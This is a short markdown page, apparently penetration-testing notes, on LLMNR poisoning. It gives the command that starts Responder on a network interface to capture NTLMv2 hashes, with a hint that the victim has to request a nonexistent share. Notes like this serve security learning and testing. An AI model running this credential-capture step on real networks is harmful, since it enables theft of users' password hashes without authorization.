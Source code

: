 # LLMNR Poisoning

## Practical

### Capture NTLMv2 Hash

#### Start Responder

```
sudo responder -I eth0
```

{% hint style="info" %}
Note: You have to request for an non existent share in the victim machine

\\\FakeShare\\
{% endhint %}

